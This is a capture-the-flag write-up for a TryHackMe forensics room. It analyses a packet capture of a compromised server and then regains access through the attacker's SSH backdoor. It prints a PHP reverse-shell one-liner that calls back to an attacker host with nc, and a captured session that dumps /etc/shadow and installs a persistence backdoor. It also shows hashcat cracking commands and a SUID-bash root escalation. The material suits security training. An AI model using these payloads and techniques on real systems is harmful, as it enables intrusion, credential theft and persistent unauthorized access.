

# Overpass 2 Hacked

**Date:** 20, May, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/overpass2hacked) to go to the TryHackMe room.

## Forensics - Analyse the PCAP

- Open the pcap file in wireshark.


### What was the URL of the page they used to upload a reverse shell?
- **Answer:** /development/
- **Steps to Reproduce:** 
    - By analysing the initial 30 packets, we find that **payload.php** is being uploaded to **/development/**.


### What payload did the attacker use to gain access?
- **Answer:** 

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

- **Steps to Reproduce:** 
    - View the data of packet number 14 (POST request made to /development/upload.php)
    - Inorder to copy the data, use **xxd** over the **hexdump** of data:


```bash
$ nano hex-payload
$ cat hex-payload | xxd -p -r

)n
)�E�
'�������������vP��r�:
��+5P,�POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
```

### Follow TCP Stream

- Now we know the attackers IP address, so we can filter out the noise and get the necessary packets!
- Apply the filter: `ip.src == 192.168.170.145`
- *Right Click* on the packet from whcih you can find shell commands (like id, sudo -l) and select **Follow -> TCP Stream**.


- You'll get the pop up window containing all the shell commands run by the adversary.
    - Shell stabilizing
    - Fetching the ROT47 password of www-data: `[{"name":"System","pass":"saydrawnlyingpicture"}]`
    - Switching to james user with the password: `REDACTED`
    - Dumping the `/etc/shadow` file
    - Setting up ssh backdoor on **port 2222** for persistence using `https://github.com/NinjaJc01/ssh-backdoor`.

```bash
/bin/sh: 0: cant access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: REDACTED

james@overpass-production:/var/www/html/development/uploads$ cd ~
cd ~
james@overpass-production:~$ sudo -l]
sudo -l]
sudo: invalid option -- ']'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user]
            [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: REDACTED

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.        
remote: Counting objects:   5% (1/18)        
remote: Counting objects:  11% (2/18)        
remote: Counting objects:  16% (3/18)        
remote: Counting objects:  22% (4/18)        
remote: Counting objects:  27% (5/18)        
remote: Counting objects:  33% (6/18)        
remote: Counting objects:  38% (7/18)        
remote: Counting objects:  44% (8/18)        
remote: Counting objects:  50% (9/18)        
remote: Counting objects:  55% (10/18)        
remote: Counting objects:  61% (11/18)        
remote: Counting objects:  66% (12/18)        
remote: Counting objects:  72% (13/18)        
remote: Counting objects:  77% (14/18)        
remote: Counting objects:  83% (15/18)        
remote: Counting objects:  88% (16/18)        
remote: Counting objects:  94% (17/18)        
remote: Counting objects: 100% (18/18)        
remote: Counting objects: 100% (18/18), done.        
remote: Compressing objects:   6% (1/15)        
remote: Compressing objects:  13% (2/15)        
remote: Compressing objects:  20% (3/15)        
remote: Compressing objects:  26% (4/15)        
remote: Compressing objects:  33% (5/15)        
remote: Compressing objects:  40% (6/15)        
remote: Compressing objects:  46% (7/15)        
remote: Compressing objects:  53% (8/15)        
remote: Compressing objects:  60% (9/15)        
remote: Compressing objects:  66% (10/15)        
remote: Compressing objects:  73% (11/15)        
remote: Compressing objects:  80% (12/15)        
remote: Compressing objects:  86% (13/15)        
remote: Compressing objects:  93% (14/15)        
remote: Compressing objects: 100% (15/15)        
remote: Compressing objects: 100% (15/15), done.        
Unpacking objects:   5% (1/18)   
Unpacking objects:  11% (2/18)   
Unpacking objects:  16% (3/18)   
Unpacking objects:  22% (4/18)   
Unpacking objects:  27% (5/18)   
Unpacking objects:  33% (6/18)   
Unpacking objects:  38% (7/18)   
remote: Total 18 (delta 4), reused 7 (delta 1), pack-reused 0        
Unpacking objects:  44% (8/18)   
Unpacking objects:  50% (9/18)   
Unpacking objects:  55% (10/18)   
Unpacking objects:  61% (11/18)   
Unpacking objects:  66% (12/18)   
Unpacking objects:  72% (13/18)   
Unpacking objects:  77% (14/18)   
Unpacking objects:  83% (15/18)   
Unpacking objects:  88% (16/18)   
Unpacking objects:  94% (17/18)   
Unpacking objects: 100% (18/18)   
Unpacking objects: 100% (18/18), done.
james@overpass-production:~$ cd ssh-backdoor
cd ssh-backdoor
james@overpass-production:~/ssh-backdoor$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/james/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The keys randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
```

### What password did the attacker use to privesc?
- **Answer:** REDACTED

### How did the attacker establish persistence?
- **Answer:** https://github.com/NinjaJc01/ssh-backdoor

### Using the fasttrack wordlist, how many of the system passwords were crackable?
- **Answer:** 4
- **Steps to Reproduce:** 
    - Crack the hashes using hashcat
    - Mode - `1800	sha512crypt $6$`

```bash
$ nano shadow-file

$tail -5 shadow-file 
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::

$ tail -5 shadow-file | cut -d : -f2 > hashes.txt

$ cat hashes.txt 
$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/
$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0
$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/
$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0
$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.

$ hashcat -m 1800 hashes.txt /usr/share/wordlists/fasttrack.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 2886/2950 MB (1024 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 5 digests; 5 unique digests, 5 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/fasttrack.txt
* Passwords.: 222
* Bytes.....: 2006
* Keyspace..: 222
* Runtime...: 0 secs

$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:REDACTED
$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:REDACTED
$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:REDACTED
Approaching final keyspace - workload adjusted.  

$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:REDACTED
                                                 
Session..........: hashcat
Status...........: Exhausted
Hash.Name........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: hashes.txt
Time.Started.....: Thu May 20 13:14:09 2021 (3 secs)
Time.Estimated...: Thu May 20 13:14:12 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/fasttrack.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      395 H/s (6.99ms) @ Accel:64 Loops:256 Thr:1 Vec:4
Recovered........: 4/5 (80.00%) Digests, 4/5 (80.00%) Salts
Progress.........: 1110/1110 (100.00%)
Rejected.........: 0/1110 (0.00%)
Restore.Point....: 222/222 (100.00%)
Restore.Sub.#1...: Salt:4 Amplifier:0-1 Iteration:4864-5000
Candidates.#1....: 2003 -> starwars

Started: Thu May 20 13:14:07 2021
Stopped: Thu May 20 13:14:13 2021
```

---

## Research - Analyse the code

- Open the **ssh-backdoor** github page - [https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go](https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go)

### What's the default hash for the backdoor?
- **Code:** 

```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```

### What's the hardcoded salt for the backdoor?
- **Answer:** 1c362db832f3f864c8c2fe05f2002a05
- **Code:** 

```go
func passwordHandler(_ ssh.Context, password string) bool {
	return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

### What was the hash that the attacker used? - go back to the PCAP for this!
- In **PCAP file**, we have the hash:

```bash
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

### Crack the hash using rockyou and a cracking tool of your choice. What's the password?
- **Answer:** REDACTED
- **Steps to Reproduce:** 
    - Identify the hash type using `haiti`.
    - Crack the **hash:salt** using `hashcat`.
    - Mode - `1710	sha512($pass.$salt)`

```bash
$ haiti 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SHA-512 [HC: 1700] [JtR: raw-sha512]
Whirlpool [HC: 6100] [JtR: whirlpool]
Salsa10
Salsa20
SHA3-512 [HC: 17600] [JtR: raw-sha3]
Keccak-512 [HC: 18000] [JtR: raw-keccak]
Blake2 [HC: 600] [JtR: raw-blake2]
Skein-512 [JtR: skein-512]
Skein-1024(512)

$ hashcat -m 1710 backdoor-hash-salt.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 2886/2950 MB (1024 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:REDACTED
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
Time.Started.....: Thu May 20 13:30:01 2021 (0 secs)
Time.Estimated...: Thu May 20 13:30:01 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1431.9 kH/s (0.49ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 17408/14344385 (0.12%)
Rejected.........: 0/17408 (0.00%)
Restore.Point....: 16384/14344385 (0.11%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: christal -> petey

Started: Thu May 20 13:29:15 2021
Stopped: Thu May 20 13:30:03 2021
```

---

## Attack - Get back in!

### The attacker defaced the website. What message did they leave as a heading?
- **Answer:** H4ck3d by CooctusClan




### Using the information you've found previously, hack your way back in!

- The SSH backdoor was created on **port 2222**.
- We can confirm that by running a **nmap scan**

```bash
$ nmap -sC -sV -p- 10.10.95.119  -oN nmap-all
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-20 13:43 IST
Stats: 0:00:26 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 3.08% done; ETC: 13:57 (0:13:08 remaining)
Nmap scan report for 10.10.95.119
Host is up (0.17s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 967.49 seconds
```

- Using `james` as the user and the hash we recently cracked as the password, we can login into the backdoor:
- **Note:** `-p` argument must be used to specify the port!

```bash
$ ssh james@10.10.95.119 -p 2222
The authenticity of host '[10.10.95.119]:2222 ([10.10.95.119]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.95.119]:2222' (RSA) to the list of known hosts.
james@10.10.95.119's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ whoami
james
james@overpass-production:/home/james/ssh-backdoor$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

### What's the user flag?
- **Answer:** thm{REDACTED}
- **Steps to Reproduce:** 
    - The backdoor! It only checks the password.
    
```bash
james@overpass-production:/home/james/ssh-backdoor$ cd ..
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt 
thm{REDACTED}
```


### Privilege Escalation

- Intially tried to use the **passwords of james** for sudo access. But this was in vain. 
- The password must have been changed by the attacker!

```bash
james@overpass-production:/home/james$ cat .overpass 
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.james@overpass-production:/home/james$ 
james@overpass-production:/home/james$ 
james@overpass-production:/home/james$ sudo -l
[sudo] password for james: 
Sorry, try again.
[sudo] password for james: 
Sorry, try again.
[sudo] password for james: 
sudo: 3 incorrect password attempts
```

- Running Linpeas

```bash
james@overpass-production:/$ cd /dev/shm
james@overpass-production:/dev/shm$ wget http://10.17.7.91:8000/linpeas.sh
--2021-05-20 09:00:05--  http://10.17.7.91:8000/linpeas.sh
Connecting to 10.17.7.91:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 325865 (318K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 318.23K   299KB/s    in 1.1s    

2021-05-20 09:00:07 (299 KB/s) - 'linpeas.sh' saved [325865/325865]

james@overpass-production:/dev/shm$ ls
linpeas.sh
james@overpass-production:/dev/shm$ chmod +x linpeas.sh 
james@overpass-production:/dev/shm$ ./linpeas.sh | tee linpeas.out
.
.
.
```

- Opps, I missed the hint in tryhackme. Going back to `/home/james`,  I was able to find hidden executable **.suid_bash**
- Privilege Escalation using `.suid_bash`:

```bash
james@overpass-production:/home/james$ ls -la
total 1140
drwxr-xr-x 7 james james    4096 May 20 08:51 .
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ..
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache
drwx------ 3 james james    4096 May 20 09:00 .gnupg
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw------- 1 james james       5 May 20 08:51 .python_history
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www

james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
```

### What's the root flag?
- **Answer:** thm{REDACTED}
- **Steps to Reproduce:** 

```bash
.suid_bash-4.4# cd /root

.suid_bash-4.4# ls 
root.txt

.suid_bash-4.4# cat root.txt 
thm{REDACTED}
```


